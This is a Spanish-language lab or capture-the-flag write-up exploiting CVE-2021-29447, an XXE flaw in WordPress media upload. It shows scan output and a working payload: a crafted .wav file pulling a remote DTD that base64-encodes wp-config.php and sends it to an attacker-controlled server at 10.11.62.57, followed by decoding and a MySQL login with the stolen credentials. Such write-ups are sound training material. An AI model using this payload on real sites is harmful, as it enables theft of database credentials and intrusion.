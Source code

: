 
# INTRO VULNERABILIDAD CVE-2021-29447
Se trata de una vulnerabilidad descrita en 2021 para WP en la cual se puede subir un fichero .wav (fichero de sonido) que a su vez solicite al servidor un fichero .dtd (Document Type Definition) que contiene un payload que nos permite ver ficheros internos, por ejemplo el fichero /etc/passwd o el fichero 
wp-config.php que contiene posiblemente datos confidenciales sobre la base de datos que utiliza WP (entre ellos credenciales). Las versiones vulnerables son aquellas inferiores a 5.7.1

# SCAN
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```
# WPSCAN
```
[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.232.9/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://10.10.232.9/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 ```
 Como vemos la version (5.6.2) es inferior a la 5.7.1 y por tanto es vulnerable
 
 ```
 [i] User(s) Identified:

[+] Corporation Test
 | Found By: Rss Generator (Passive Detection)
```
Tambien vemos que encuentra un usuario, aunque el nombre no coincide completamente con el que nos da en la descripcion que es:
> test-corp:test

# PAYLOAD
Debemos crear dos ficheros:
1. Un fichero .wav que debe estar codificado en url y que a su ver solicita un fichero .dtd 
2. Un fichero .dtd (Document Type Description) que contiene el payload que nos permite leer el archivo

## Fichero .wav
```
RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.11.62.57:8000/payload.dtd'>%remote;%init;%trick;]>
```

## Fichero .dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.11.62.57:8000/?p=%file;'>" >
```
El siguiente paso es crear un servidor local con:
1. $ python3 -m http.server
2. $ php -S 0.0.0.0: PORT

y despues desde el wp-admin cargar el fichero pay.wav. La respuesta esta codificada en base64 y hay que decodificarla
No se porque no puedo decodificarla desde el bash con el comando **base64** y tengo que untilizar un script en php
> <?php echo zlib_decode(base64_decode('base64here')); ?>

Se guarda esto en un fichero con
$ echo '<?php echo zlib_decode(base64_decode('base64here')); ?>' > file.php
y despues se ejecuta
> php file.php

Ahora si obtenemos el fichero de configuracion de WP que es wp-config.php y aqui podemos obtener las credenciales para el acceso a la base de datos de mysql

Con esto podemos entrar en la base de datos mysql:
> $ mysql -h <ip-address> -u thedarktangent -p sUp3rS3cret132
 y obtenemos de la tabla users el primer usuario (id=1)
